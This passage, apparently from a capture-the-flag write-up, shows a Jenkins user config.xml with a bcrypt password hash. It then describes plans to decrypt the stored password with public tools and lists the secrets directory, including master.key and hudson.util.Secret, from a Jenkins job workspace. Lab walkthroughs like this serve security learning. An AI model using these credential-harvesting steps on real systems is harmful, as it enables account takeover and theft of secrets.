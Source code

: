         </jenkins.security.seed.UserSeedProperty>
        <hudson.search.UserSearchProperty>
          <insensitiveSearch>true</insensitiveSearch>
        </hudson.search.UserSearchProperty>
        <hudson.model.TimeZoneProperty/>
        <hudson.security.HudsonPrivateSecurityRealm_-Details>
          <passwordHash>#jbcrypt:$2a$10$q17aCNxgciQt8S246U4ZauOccOY7wlkDih9b/0j4IVjZsdjUNAPoW</passwordHash>
        </hudson.security.HudsonPrivateSecurityRealm_-Details>
        <hudson.tasks.Mailer_-UserProperty plugin="mailer@1.34">
          <emailAddress>admin@object.local</emailAddress>
        </hudson.tasks.Mailer_-UserProperty>
        <jenkins.security.ApiTokenProperty>
          <tokenStore>
            <tokenList/>
          </tokenStore>
        </jenkins.security.ApiTokenProperty>
        <jenkins.security.LastGrantedAuthoritiesProperty>
          <roles>
            <string>authenticated</string>
          </roles>
          <timestamp>1634793332195</timestamp>
        </jenkins.security.LastGrantedAuthoritiesProperty>
      </properties>
    </user>



There's both a hash and an encrypted password.

#### Decrypt Password

I could try to brute force the hash, but decrypting the password will be
easier. Most of the references that will come up on Google (like [this
one](https://sites.google.com/site/xiangyangsite/home/technical-tips/software-development/jenkins/decrypting-jenkins-passwords))
show how to do this through the script console (`/script`), but as I
showed above, I don't have access to that.

I found two repos on Github that had methods for decrypting user
passwords stored on Jenkins. [This
one](https://github.com/hoto/jenkins-credentials-decryptor) is written
in Go, and [this one](https://github.com/gquere/pwn_jenkins) has a ton
of Python scripts for pentesting Jenkins.

Both require the `config.xml`, as well as `master.key` and
`hudson.util.Secret`, but from `/secrets/`:



    C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\0xdf's job>powershell -c ls ..\..\secrets 

        Directory: C:\Users\oliver\AppData\Local\Jenkins\.jenkins\secrets

    Mode                LastWriteTime         Length Name                                                                  
    ----                -------------         ------ ----                                                                  
    d-----       10/20/2021  10:08 PM                filepath-filters.d                                                    
    d-----       10/20/2021  10:08 PM                whitelisted-callables.d                                               
    -a----       10/20/2021  10:26 PM            272 hudson.console.AnnotatedLargeText.consoleAnnotator                    
    -a----       10/20/2021  10:26 PM             32 hudson.model.Job.serverCookie                                         
    -a----       10/20/2021  10:15 PM            272 hudson.util.Secret                                                    
    -a----       10/20/2021  10:08 PM             32 jenkins.model.Jenkins.crumbSalt                                       
    -a----       10/20/2021  10:08 PM            256 master.key                                                            
    -a----       10/20/2021  10:08 PM            272 org.jenkinsci.main.modules.instance_identity.InstanceIdentity.KEY     
    -a----       10/20/2021  10:21 PM              5 slave-to-master-security-kill-switch  
